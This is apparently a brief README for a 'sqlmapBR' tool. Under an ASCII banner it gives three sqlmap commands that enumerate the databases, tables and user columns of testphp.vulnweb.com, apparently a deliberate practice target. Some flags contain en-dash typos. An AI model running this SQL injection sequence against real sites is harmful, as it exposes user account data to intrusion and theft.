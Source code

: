 # sqlmapBR

  ___  ___  _    __  __   _   ___ 
 / __|/ _ \| |  |  \/  | /_\ | _ \
 \__ \ (_) | |__| |\/| |/ _ \|  _/
 |___/\__\_\____|_|  |_/_/ \_\_|  
 | _ ) _ \                        
 | _ \   /                        
 |___/_|_\                        
                                  


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs


python3 sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns


